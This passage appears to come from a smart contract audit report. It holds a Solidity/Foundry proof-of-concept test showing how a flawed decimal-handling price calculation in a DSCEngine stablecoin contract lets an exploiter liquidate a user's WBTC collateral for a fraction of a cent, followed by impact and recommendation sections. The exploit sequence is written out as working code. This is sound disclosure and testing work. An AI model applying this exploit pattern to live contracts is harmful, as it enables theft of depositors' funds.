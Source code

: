 ```solidity
        // An exploiter acquires DSC to perform a liquidation (DSC could have come from the market, but we borrow it).
        vm.startPrank(exploiter);
        ERC20DecimalsMock(weth).approve(address(dsce), amountWethDeposited);
        dsce.depositCollateralAndMintDsc(weth, amountWethDeposited, amountDscFromWeth);
        assertEq(dsc.balanceOf(exploiter), amountDscFromWeth);
        vm.stopPrank();

        // Over time, the price of WBTC falls just slightly. The user is now vulnerable to liquidation.
        MockV3Aggregator(btcUsdPriceFeed).updateAnswer(int256(29_999 * 10**feedDecimals)); // $29,999
        uint256 newValueWbtc = dsce.getUsdValue(wbtc, amountWbtcDeposited);
        assertTrue(dsce.getHealthFactor(user) < MIN_HEALTH_FACTOR);

        // The exploiter liquidates the user's WBTC by paying back an "equivalent" amount of DSC.
        // The amount is actually far too low given the flawed price calculation.
        // After this, the exploiter still has plenty of DSC and all of the user's WBTC.
        // The exploiter paid ~$0.0000027 for ~$30,000 worth of WBTC.
        vm.startPrank(exploiter);
        // This comes out to about $0.0000027 (reduced from $0.000003 to account for 10% liquidation bonus)
        uint256 debtToPay = (newValueWbtc * LIQUIDATION_PRECISION) / (LIQUIDATION_PRECISION + LIQUIDATION_BONUS);
        dsc.approve(address(dsce), debtToPay);
        dsce.liquidate(wbtc, user, debtToPay);
        vm.stopPrank();
        
        // Exploiter has all of the WBTC and still lots of DSC left!
        uint256 err = 0.0001 ether; // 0.01% allowable relative error to account for rounding
        assertApproxEqRel(ERC20DecimalsMock(wbtc).balanceOf(exploiter), amountWbtcDeposited, err);
        assertApproxEqRel(dsc.balanceOf(exploiter), amountDscFromWeth, err);

        // User has no WBTC left in the `DSCEngine`.
        assertApproxEqAbs(dsce.getCollateralBalanceOfUser(user, wbtc), 0, 1); // 1 wei of allowable error for rounding
    }
}
```

## Impact
Direct theft of deposited collateral for tokens with fewer than 18 decimals.

## Tools Used
Manual review.

## Recommendations
Test for varied token decimals! Here is a diff which adds some relevant tests to the existing code base. Note that the new tests fail!
